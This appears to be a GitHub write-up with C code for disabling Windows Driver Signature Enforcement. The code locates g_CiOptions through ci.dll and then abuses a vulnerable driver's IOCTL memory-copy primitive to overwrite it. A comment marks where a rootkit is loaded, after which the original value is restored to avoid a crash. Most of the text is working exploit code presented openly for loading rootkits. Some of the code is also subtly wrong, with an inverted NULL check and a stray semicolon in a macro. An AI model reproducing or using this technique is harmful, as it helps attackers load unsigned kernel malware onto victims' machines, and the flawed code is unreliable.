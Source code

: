 An example code how to get a DSE offset:
```c
HMODULE CiHandle = LoadLibraryExA("ci.dll", NULL, DONT_RESOLVE_DLL_REFERENCES);
if(!CiHandle) {
  return -1;
}
PBYTE CiInitializeOffset = (PBYTE)GetProcAddress(CiHandle, "CiInitialize");
if(CiInitializeOffset == NULL) {
  ULONG64 Address = (ULONG64)(CiInitializeOffset - (PBYTE)CiHandle + baseAddressKernel);
  printf("DSE: %p\n",(Address+gCiOptionsOffset)); //You need to find de g_CiOptions
  return 0;
} else {
  return -1;
}
```
Its use ci.dll!CiInitialize because its nearest memory address to g_CiOptions of DSE

After calculate the offset of a DSE, to send the payload its required communicate with a Driver and exploit using the IOCTL found, after have a symbolic link and MajorFunction

```c
#define IOCTL_CODE 0xC3502808;
typedef struct _MemcpyLikeFunc {
	ULONG64 dest;
	ULONG64* src;
	DWORD size;
} MemcpyLikeFunc;
...
MemcpyLikeFunc gdrvStruct;
gdrvStruct.dest = gCiOptionsAddress; //ci.dll!g_CiOptions
gdrvStruct.size = 1; // 1 byte legnth
gdrvStruct.src = (ULONG64*)0xe; //TestSigning Mode 
HANDLE HandleDriver = CreateFile(L"\\\\.\\GIO", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if(!HandleDriver) {
  return -1;
}
BYTE buff[0x30] = NULL;
DeviceIoControl(HandleDriver, IOCTL_CODE, (LPVOID)&gdrvStruct, sizeof(gdrvStruct), (LPVOID)buff, sizeof(buff), NULL, NULL);
... //rootkit load here
gdrvStruct.src = (ULONG64*)0x6; //Enable DSE to avoid KeBugCheck routine
DeviceIoControl(HandleDriver, IOCTL_CODE, (LPVOID)&gdrvStruct, sizeof(gdrvStruct), (LPVOID)buff, sizeof(buff), NULL, NULL);
CloseHandle(HandleDriver);
```
To check if DSE status you can use WinDBG attached to a kernel with with the following command:
```asm
kd> dt ci.dll!g_CiOptions L1
<AddressHere> 0xe
```

And the code to exploit is that, not a monstruosity code and try to avoids KeBugCheck and its possible loads rootkit.
